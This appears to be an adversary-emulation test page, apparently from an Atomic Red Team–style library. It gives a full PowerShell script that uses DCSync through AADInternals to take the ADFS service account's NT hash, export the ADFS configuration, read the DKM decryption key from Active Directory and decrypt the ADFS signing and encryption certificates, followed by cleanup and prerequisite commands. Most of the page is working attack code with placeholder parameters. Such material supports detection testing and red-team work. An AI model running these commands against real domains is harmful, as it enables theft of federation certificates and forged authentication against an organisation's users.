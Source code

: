 
#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ActiveDirectory -Force 
Import-Module AADInternals -Force | Out-Null
#Get Configuration
$dcServerName = (Get-ADDomainController).HostName
$svc = Get-ADObject -filter * -Properties objectguid,objectsid | Where-Object name -eq "#{adfs_service_account_name}"
$PWord = ConvertTo-SecureString -String "#{replication_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{replication_user}, $PWord
# use DCSync to fetch the ADFS service account's NT hash
$hash = Get-AADIntADUserNTHash -ObjectGuid $svc.ObjectGuid -Credentials $Credential -Server $dcServerName -AsHex
$ADFSConfig = Export-AADIntADFSConfiguration -Hash $hash -SID $svc.Objectsid.Value -Server #{adfs_server_name}
# Get certificates decryption key
$Configuration = [xml]$ADFSConfig
$group = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("displayName") | Out-Null
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"] 
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0] 
# Get encrypted certificates from configuration and decrypt them
Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $key
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path ".\ADFS_encryption.pfx" -ErrorAction Ignore
Remove-Item -Path ".\ADFS_signing.pfx" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: AADInternals and ActiveDirectory modules must be installed.
##### Check Prereq Commands:
```powershell
if ($(Get-Module AADInternals) -or $(Get-Module -ListAvailable -Name ActiveDirectory)) {echo 0} else {echo 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```
